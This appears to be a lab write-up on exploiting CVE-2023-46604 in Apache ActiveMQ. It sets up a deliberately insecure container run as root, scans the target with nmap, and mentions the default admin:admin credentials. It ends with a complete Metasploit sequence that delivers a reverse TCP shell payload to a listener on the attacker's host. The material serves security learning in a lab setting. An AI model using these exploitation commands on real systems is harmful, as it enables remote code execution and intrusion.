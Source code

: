 - Command `ip a` is a short for `ip address show`
  - `-4` shows only IPv4
  - `-o` for oneliner output
  - `dev <dev>` to show information about a specific interface on my host.
  - `| cut -d'/' -f1` to cut output and show only addresses

<div style="page-break-after: always; break-after: page;"></div>

## Task 2 - Perform an Exploitation

- Setting up a demo for exploiting [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/cve-2023-46604)

  - Affects Apache ActiveMQ (Message Broker) versions 5.16.0 and earlier.
  - Exploits OpenWire Protocol marshaller to achieve RCE by manipulating serialized class types to cause the broker to instantiate any class on the classpath.

- Prepare `vuln` VM by running the vulnerable service in docker

  ```bash
  docker run -d --name activemq --user 0 --network host ktxcx/activemq:5.16.0
  ```

- The following insecure options are intentionally supplied for making an interesting PoC:

  - `--network host`: places the container in the host's network; the lazy way some admins use to simulate a native service installations and avoid having to deal with isolated docker networks.
  - `--user 0`: runs the container under the root user. An admin may forget to create unprivileged user when writing `Dockerfile`, or use the option intentionally to facilitate debugging with `docker exec`.
  - Without these options (using port forwarding instead), the exploit would still work and give a shell as `activemq` user in the isolated docker network.

- Scanning `vuln` from attacker machine

  - Initial `nmap` full port scan shows three open ports: 22 (SSH), 8161, 61616
  - Port 8161 runs an HTTP server (ActiveMQ admin panel). Basic Auth is enabled (hence the 401 error).
  
  ![image-20250417235900763](https://i.imgur.com/pSLV7JQ.png)
  
- It's worth noting that the default ActiveMQ credentials are set to `admin:admin` unless configured otherwise, but we will not use this knowledge in exploitation.

  ![image-20250421034515261](https://i.imgur.com/8DtnYNJ.png)

- Port 61616 is used by ActiveMQ OpenWire transport (target). **It does not require authentication**.

  ![image-20250418000213283](https://i.imgur.com/G0FjDn6.png)

- Identified vulnerable ActiveMQ version 5.16.0 for which there is a ready-made metasploit [module](https://www.rapid7.com/db/modules/exploit/multi/misc/apache_activemq_rce_cve_2023_46604/).

  ```bash
  $ msfconsole
  > use multi/misc/apache_activemq_rce_cve_2023_46604
  > set RHOSTS 192.168.122.172
  > set RPORT 61616
  > set LHOST 192.168.122.1
  > set LPORT 4444
  > set SRVPORT 5555
  > set TARGET 1
  > set PAYLOAD cmd/linux/http/x64/shell/reverse_tcp
  > exploit
  ```
